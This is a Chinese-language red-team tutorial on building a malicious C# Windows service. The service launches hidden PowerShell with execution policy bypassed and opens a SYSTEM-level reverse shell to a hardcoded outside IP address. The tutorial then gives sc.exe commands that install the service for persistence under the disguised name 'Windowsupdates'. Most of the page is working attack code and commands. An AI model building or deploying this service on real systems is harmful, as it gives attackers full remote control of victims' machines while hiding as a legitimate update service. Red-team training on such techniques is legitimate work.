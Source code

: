 ```yaml
---
title: '如何使用 C# 創建惡意 Windows 服務來回彈系統權限的 shell'
sidebar_position: 20
description: '如何使用 C# 創建惡意 Windows 服務來回彈系統權限的 shell'
keywords: ['Windows Service', 'C#', 'Shell']
---
```


<head>
  <title>如何使用 C# 創建惡意 Windows 服務來回彈系統權限的 shell</title>
</head>

## 概述

本文承接上一篇 log4j 的實作，使用 C# (Visual Studio 2022) 來創建一個惡意的 Windows 服務，用來回彈一個系統權限的 shell。

## 步驟

- 依據下方的影片先建立簡單的 windows service
- 在 .cs 檔案下新增以下程式碼

由於 windows service 本身就在 admin 權限下執行，所以不需要 `UAC` 的權限提升。

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.ServiceProcess;

namespace service
{
    public partial class Service1 : ServiceBase
    {
        public Service1()
        {
            InitializeComponent();
        }

        protected override void OnStart(string[] args)
        {
            try
            {
                System.Threading.Thread.Sleep(100000);

                string payload = $@"
                    $client = New-Object System.Net.Sockets.TCPClient('104.199.254.153', 8000);
                    $stream = $client.GetStream();
                    $writer = New-Object System.IO.StreamWriter($stream);
                    $reader = New-Object System.IO.StreamReader($stream);
                    $writer.AutoFlush = $true;
                    while ($true) {{
                        $command = $reader.ReadLine();
                        if ($command -eq 'exit') {{ break }}
                        $output = try {{ Invoke-Expression $command 2>&1 | Out-String }} catch {{ $_.Exception.Message }};
                        $writer.WriteLine($output);
                    }}
                    $client.Close();";

                ExecuteCommand(payload);
            }
            catch (Exception ex)
            {
                Console.WriteLine(ex.ToString());
            }
        }

        protected override void OnStop()
        {
        }

        private void ExecuteCommand(string command)
        {
            try
            {
                ProcessStartInfo psi = new ProcessStartInfo
                {
                    FileName = "powershell.exe",
                    Arguments = "-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -Command " + command,
                    CreateNoWindow = true,
                    UseShellExecute = false,
                    RedirectStandardOutput = true,
                    RedirectStandardError = true
                };

                using (Process process = new Process { StartInfo = psi })
                {
                    process.Start();
                    string output = process.StandardOutput.ReadToEnd();
                    string error = process.StandardError.ReadToEnd();
                    process.WaitForExit();
                }
            }
            catch (Exception ex)
            {
                // 處理異常
                Console.WriteLine("執行 PowerShell 指令時發生錯誤: " + ex.Message);
            }
        }
    }
}
```

build 之後 `service/bin/Debug/service.exe` 這個檔案就是我們的惡意 windows service，我們可以將其放到目標機器上執行。

- 將 `service.exe` 放到目標機器上，並偽裝成合法的服務名稱

```bash
& "C:\Windows\System32\sc.exe" create Windowsupdates binPath= "C:\Users\redteam\Desktop\service.exe" start= auto obj= LocalSystem DisplayName= "windowsupdates"
```

```bash
& "C:\Windows\System32\sc.exe" start Windowsupdates
```

如果需要刪除服務，可以使用以下指令

```bash
& "C:\Windows\System32\sc.exe" stop Windowsupdates
& "C:\Windows\System32\sc.exe" delete Windowsupdates
```

## 參考

- [How to Create a Windows Service Using C# and Visual Studio!](https://www.youtube.com/watch?v=67DtZbPYNKg)
